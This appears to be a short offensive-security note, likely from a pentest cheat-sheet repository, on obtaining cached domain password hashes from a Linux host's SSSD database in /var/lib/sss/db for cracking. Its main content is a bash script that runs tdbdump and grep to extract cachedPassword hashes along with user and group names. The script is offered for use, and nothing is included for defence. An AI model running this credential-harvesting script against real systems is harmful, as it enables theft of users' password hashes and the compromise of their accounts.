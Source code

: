 ## Obtain Hash from Cached file and crack
1. Discover cached file in /var/lib/sss/db
2. Extract hash from it
```
#!/bin/bash

database="<path to local ldb file>"

for users in `tdbdump $database | grep cachedPassword | cut -d "=" -f 3 | cut -d "," -f 1`
do
	name=`tdbdump $database | grep cachedPassword | grep $users | cut -d "=" -f 7 | cut -d "," -f 1`
	group=`tdbdump $database | grep cachedPassword | grep $users | cut -d "=" -f 13 | cut -d "," -f 1`
	hash="`tdbdump $database | grep cachedPassword | cut -f 2-4 -d '$' |cut -f 1 -d '\\' |sed 's/^/$/g'`"
	echo "$users : $group : $name : $hash"
done
```

## Resources
